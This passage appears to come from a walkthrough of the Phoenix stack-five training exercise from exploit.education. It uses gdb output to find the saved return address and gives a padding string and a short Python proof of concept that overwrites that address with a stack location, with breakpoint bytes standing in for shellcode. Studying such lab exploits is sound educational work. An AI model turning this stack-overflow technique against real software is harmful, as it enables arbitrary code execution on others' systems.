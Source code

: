 As you can see "0x00000000004005c7" is the next address after "start_level" so that's the original return address. Why do we need to know this? Because that's the address we will look out for on the stack.
So now lets run the program with some simple input....how about the alphabet?....and then we will take a look at the stack

```
(gdb) run
Starting program: /opt/phoenix/amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

(gdb) x/48wx $rsp
0x7fffffffe480:	0x41414141	0x42424242	0x43434343	0x44444444
0x7fffffffe490:	0x45454545	0x46464646	0x47474747	0x48484848
0x7fffffffe4a0:	0x49494949	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c
0x7fffffffe4b0:	0x4d4d4d4d	0x4e4e4e4e	0x4f4f4f4f	0x50505050
0x7fffffffe4c0:	0x51515151	0x52525252	0x53535353	0x54545454
0x7fffffffe4d0:	0x55555555	0x56565656	0x57575757	0x58585858
0x7fffffffe4e0:	0x59595959	0x5a5a5a5a	0xf7db0000	0x00007fff
0x7fffffffe4f0:	0xffffe578	0x00007fff	0xffffe520	0x00007fff
0x7fffffffe500:	0xffffe520	0x00007fff	0x004005c7	0x00000000
0x7fffffffe510:	0xffffe578	0x00007fff	0x00000000	0x00000002
0x7fffffffe520:	0x00000002	0x00000000	0xf7d8fd62	0x00007fff
0x7fffffffe530:	0x00000000	0x00000000	0xffffe570	0x00007fff
```

And can you find the return address? If not take a closer look at this line "0x7fffffffe500:	0xffffe520	0x00007fff	0x004005c7	0x00000000".
But now we still need to find the exact point to overwrite the return address. You can of course try to figure that out on your own or you just use this

```
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZaaaabbbbccccddddeeeefffgggghhhhiiAAAAAAAA
```

Now we only need to replace the "AAAAAAAA" at the end of the string with a return address of our choice. So lets jump to the beginning of the stack "0x7fffffffe480". which we need to transform to little endian and already format it for the exploit "\x80\xe4\xff\xff\xff\x7f"

```
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZaaaabbbbccccddddeeeefffgggghhhhii\x80\xe4\xff\xff\xff\x7f
``


##### A simple proof of concept

I prepared a simple python script 

```py
padding = "AAAABBBBCCCCDDDD\xcc\xcc\xcc\xccFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZaaaabbbbccccddddeeeefffgggghhhhii"
ret_address = "\xa0\xe4\xff\xff\xff\x7f" 
print(padding + ret_address)
```
